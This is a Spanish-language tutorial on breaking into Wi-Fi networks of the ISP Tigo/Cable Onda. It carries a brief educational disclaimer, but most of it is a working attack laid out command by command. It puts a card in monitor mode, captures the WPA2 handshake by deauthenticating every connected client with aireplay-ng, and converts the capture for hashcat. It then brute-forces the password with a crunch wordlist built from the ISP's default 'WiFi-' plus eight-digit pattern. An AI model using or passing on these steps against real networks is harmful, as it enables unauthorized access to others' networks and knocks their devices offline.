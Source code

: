 # HACKING REDES TIGO

DISCLAIMER

Esta informacion no busca promover los ataques a redes que no sean de tu propiedad lo que se busca es tomarlo del punto educacional, que les ayude un poco a comprender como es un ataque de wireless y que nos ayude a protegernos.

# Procedimiento

Para este ataque utilizaremos la tecnica de captura de handshake y este archivo lo pasaremos al hashcat para poder desencriptar el hash a traves de un diccionario que crearemos con CRUNCH. 

Utilizaremos tres aplicaciones para poder obtener el password [Aircrack-ng](http://aircrack-ng.org/)/[Hashcat](http://hashcat.net/). Crunch https://github.com/jim3ma/crunch

## Comencemos

Para este tutorial necesitaremos cualquiera de estas distribuciones de linux:

-Kali Linux https://www.kali.org/)
-Parrot OS https://www.parrotsec.org/
-Wifislax https://www.wifislax.com/

# Hardware
	
- Necesitaremos una interfaz de red que sea compatible con [monitor mode](https://en.wikipedia.org/wiki/Monitor_mode)
- Pueden entrar a ese link y verificar que tarjetas de red son compatibles
- (http://www.wirelesshack.org/best-kali-linux-compatible-usb-adapter-dongles-2016.html)

### Monitor Mode

Lo primero que tenemos que hacer es colocar nuestra interfaz de red en modo monitor:

```bash
airmon-ng start "NUESTRA INTERFAZ"
```

Normalmente siempre lleva el nombre de `wlan0` pero para verificar cual es nombre solo escribe en una terminal `iwconfig`:

### Ahora nos ponemos en modo escucha

```bash
airodump-ng wlan0
```

- Veran algo similar como esto

```
CH 13 ][ Elapsed: 52 s ][ 2017-07-23 15:49                                         
                                                                                                                                              
 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                              
 14:91:82:F7:52:EB  -66      205       26    0   1  54e  WPA2             COWIFI241135420/9                                                 
```

- De esta ventana hay que anotar el bssid `14:91:82:F7:52:EB` y el canal `1`

### Poner en modo escucha el airodump

- Para esto solo tendremos que especificarle al airodump-ng en que red quiero que se enfoque y el nombre del archivo que quiero guardar toda esta informacion. con `-c` especificamos el canal `--bssid` insertamos el bssid y con `-w` nombramos el el archivo donde queremos que se almacene el handshake y por ultimo le especificamos nuestra interfaz de red.

```
airodump-ng -c 'CANAL' --bssid 'bssid' -w 'nombre del archivo' wlan0mon

```
```
 CH  6 ][ Elapsed: 1 min ][ 2017-07-23 16:09 ]                                        
                                                                                                                                              
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                              
14:91:82:F7:52:EB  -47   0      140        0    0   1  54e  WPA2 CCMP   PSK  COWIFI241135420/9  
```
-Ahora en otra terminal paralela a esta escribimos el siguente codigo
```
aireplay-ng --deauth 0 -a 'bssid' wlan0mon

```
-esto lo que hara es desautenticar a todos los disposivos y cuando se intente conectar capturaremos el handshake


-No pueden cerrar esta terminal hasta que en la parte superior derecha apareza este mensaje `[ WPA handshake: 14:91:82:F7:52:EB`.

- Luego cuando tengan este archivo '.cap' lo pasaremos a nuestro windows y entraremos a este link https://hashcat.net/cap2hashcat/ y comvertimos nuestro archivo .cap a .22000 que es el formato que lee hashcat.

# Creacion de diccionario

-Las redes tigo o cable onda tienen un particularidad y es que todas comienza con "WiFi-(y una serie de 8 numeros)" Con crunch podemos crear un diccionario especial para esto solo necesitaremos copiar estos comandos
```
crunch 13 13 -t WiFi-%%%%%%%% -o DiccionarioTIGO.txt

```

### Crack the Network Password

-Ahora en nuestro windows abriremos la consola y nos pocisionaremos donde tengamos descargado el hashcat luego cuando estemos adentro escribimos este codigo
```
hashcat -a 0 -m 22000 Nombre_del_hash.22000 diccionariotigo.txt --show

```

# LISTO
- En menos de 5min pudimos saber el password de una red Tigo
              
